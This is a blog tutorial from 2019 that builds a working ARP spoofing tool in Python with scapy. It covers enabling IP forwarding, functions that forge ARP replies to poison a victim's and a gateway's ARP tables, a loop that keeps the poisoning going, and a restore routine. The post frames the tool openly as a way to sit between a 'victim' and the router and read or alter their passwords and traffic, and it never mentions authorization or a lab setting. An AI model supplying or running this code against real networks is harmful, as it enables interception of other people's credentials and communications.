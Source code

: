 ```yaml
---
layout: post
comments: true
title:  "How to Build an ARP Spoofing Tool Using Python"
date:   2019-03-09 00:02:14
categories: Python, ARP Spoofing, ARP Table Poisoning, Kali, Scapy, Layer 2.5, Data Link Layer
---
```


In this documentation, I will go through the process on how to build an ARP Spoofing program. ARP Spoofing enables us to redirect the flow of packets. Hence, we can use this tool to redirect packets to flow through our computer.

Therefore, any requests sent and responses received by the target client computer, will have to flow through our computer (attack machine) since we are the MITM (Man In The Middle). Hence, images, usernames, passwords, websites or any information entered by the target client will have to flow through our attack machine. Then, by using the ARP Spoofing tool, we can read this information, modify it, or even drop the packets. This is all possible because ARP is not very secure.

Before I go into why ARP is not secure, let's discuss why ARP is used. ARP is used so that clients can identify other connected clients on the same network, and next, they can get the clients MAC address. The reason being, clients on the same network connect with each other using the MAC address. (Note: here, each client device on the same network has an ARP table which links ip addresses to it's respective MAC address.) In order to view your network ARP table, type the following in terminal:
```shell
arp -a
```

Unfortunately, the MAC address can be modified by exploiting the ARP protocol. In order to exploit this protocol we will send *two ARP responses*. One response to the gateway AP(i.e. router access point) and another response to the target client (i.e. victim's computer). Here, we will tell the gateway that our attack machine is at the IP of the target client. Hence, the gateway AP will update it's ARP table and it will associate the IP of the target client with our attack machine's MAC address. We will do the same response process with the target client machine, making it modify its ARP table so that it will associate thee IP of the gateway AP with our attack machine's MAC address.

Therefore, we end up fooling the target client computer that our attack machine is the gateway AP and the gateway AP will think our attack machine is the target client computer.
Hence, to sum everything up, whenever the target client sends a request, it will flow through our attack machine and then we will port forward it to the gateway AP. The same process applies for the gateway AP. So, when the gateway AP sends a response it will flow through our attack machine and then we will send that response to the target client. Therefore, this makes us the man in the middle of the connection.

*Why ARP is not secure?*
As listed above, clients *accept responses* even if they did not send a request. Also, the reason clients accept responses is because they trust the incoming response without any form of verification.

**Process on How to Build an ARP Spoofing Program**

1. Since the attack machine is not a router, when it get's requests, it stops the packets from flowing through it and going to the router. This happens because it is a security feature in Linux systems. Therefore, we need to enable port forwarding, so that the attack machine will allow packets to flow through it just like a router. In order to accomplish this, open a terminal window and type the following command to enable port forwarding.
    ```shell
    echo 1 > /proc/sys/net/ipv4/ip_forward
    ```
(Note: Linux comes with a built in ARP Spoofing tool, However let's create our own ARP Spoofing tool.)

2. Next, let's create a new python file using any IDE you prefer and we will start off by importing the the necessary modules to complete the task. Here, I added a shebang at the beginning of the script, so that the script recognizes the interpreter type when you execute the script from shell. Here, by using the scapy module, we can create, and send an ARP response. Plus, we can use scapy to extract a MAC address. The time module will help us handle time delay to send packets, which you will see further into the documentation. Finally, the sys module will help us flush the output buffer which you will also see in the later steps.
    ```python
    #!usr/bin/env python

    import scapy.all as scapy
    import time
    import sys
    ```

3. Next, we will create two global variables to save the target client IP address, and the gateway access point IP address.
    ```python
    target_ip = "10.15.20.6"
    gateway_ip = "10.15.20.1"
    ```

4. Next, let's create a function to extract MAC address. Here, we will use the scapy module, which lets us do the same functions as Netdiscover and NMap: to scan the network. (See python comments for info.)
    ```python
    def get_mac(ip):
        arp_request = scapy.ARP(pdst=ip)  #using scapy module to create ARP packet object and .ARP to ask who has target client IP
        broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff") #set destination MAC to broadcast MAC
        arp_request_broadcast = broadcast/arp_request #scapy allows us to combine both ARP request and also broadcast at the same time
        answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0] #send packet and receive response
        return answered_list[0][1].hwsrc
    ```
(Note: Disable NAT network in using virtual machine when using an external adapter to discover systems.)

5. Next, let's go ahead and create a function to create ARP responses and send those responses in order to spoof the desired machine. Which means, we can poison the ARP table, which will put is in the middle of the connection. From the scapy module, we will use the "op" field and let's set it to the integer 2 in order to send an ARP response. Because, by default "op" is set to 1, which means it will always send an ARP request when an ARP packet is created. Below, pdst is set to the target clients IP address (destination IP: which is the target machine to be poisoned), hwdst is set to target clients MAC address which is obtained from the get_mac function and psrc is set to the IP address we want to spoof. Basically psrc is the source of where the response is coming from and here we fake the IP and set the IP of the AP router.
    ```python
    def spoof(target_ip, spoof_ip):
        target_mac = get_mac(target_ip)
        packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
        scapy.send(packet, verbose=False) #scapy.send will send the packets for us
    ```
(Note: Do route -n to get IP of router and also for more info on scapy, go to python interpreter and type "import scapy.all as scapy" and then type "scapy.ls(scapy.ARP)" to view all the option fields of the scapy module. Also, even tho we dont mention it above, scapy will set the hwsrc to our attack machine MAC address by default.) Next, once scapy.send is executed, the ARP table of target client machine should be poisoned. Do "arp -a" from target client side to confirm.

6. Next, we will write a function to restore the ARP tables, so that when we quit the program it will revert the ARP tables and associate the IP address with the correct Mac address. Hence, the traffic can start flowing normally. The need for a restore function is if the ARP table is not restored, we will still be the MITM even if we quit the program. (Note: After some time the ARP tables will go back to default, because we are not continuously sending spoofing response packets. However, it is better practice to restore everything to the way it was, when we quit the program.)
    ```python
    def restore(destination_ip, source_ip):
        destination_mac = get_mac(destination_ip)
        source_mac = get_mac(source_ip)
        packet = scapy.ARP(op=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
        scapy.send(packet, count=4, verbose=False) #here count=4 is to send packet response 4 times. verbose=False so that scapy.send runs in the background
    ```
(Note: here we need to specify the source MAC address - hwsrc or else scapy will set the hwsrc to our attack machine MAC address by default.)

7. Finally, we can start using the above functions. We will use the spoof function twice, the first spoof call is to tell the target client machine (victim) that our attack machine has the gateway AP (router) MAC address. A second spoof function call is to tell the gateway AP (router) that our attack machine has the target client machine (victim) MAC addresss. This will make us the MITM of the connection. However, in order to maintain the poisoning of the target ARP tables, we need to continuously send ARP responses. Therefore, we will do a while loop that will send a ARP spoof to both target client and gateway AP every two seconds. This is possible by using the time module, which will put the while loop to sleep for 2 seconds.
    ```python
    try:
        sent_packets_count = 0
        while True:
            spoof(target_ip, gateway_ip)
            spoof(gateway_ip, target_ip)
            sent_packets_count = sent_packets_count + 2
            print("\r[+] Packets sent: " + str(sent_packets_count)),
            sys.stdout.flush()
            time.sleep(2)
    except KeyboardInterrupt: #to make the tool UI pretty, use try/except block, so that error is not shown when user does a keyboard interruption.
        print("\n[-] CTRL + C : Keyboard Interruption => Restoring ARP tables now. Please wait...\n")
        restore(target_ip, gateway_ip)
        restore(gateway_ip, target_ip)
    ```
(Note: python buffers everything when you have a comma after a print statement. Meaning, everything will be printed in the background, and you will see all the print statements when you CTRL + C. Therefore, we will tell python to flush this buffer and print statements instantly using sys.stdout.flush() Therefore, the program won't wait for the user to CTRL + C in order to show output of print statements. After this line of code, everything will start to print in one line. To avoid this ugly screen output, I over-write the previous print statement and replace a new print statement by using '\r' which tells python to print statements from the start of the line. Hence, now it will dynamically print the sent packets statement.)

* The above sys.stdout.flush() only works with python 2.7 and below. For python 3 use:
    ```Python
    print("\r[+] Packets sent: " + str(sent_packets_count), end="") #Where end="" will tell python not to add anything to the end of the print statement.
    ```
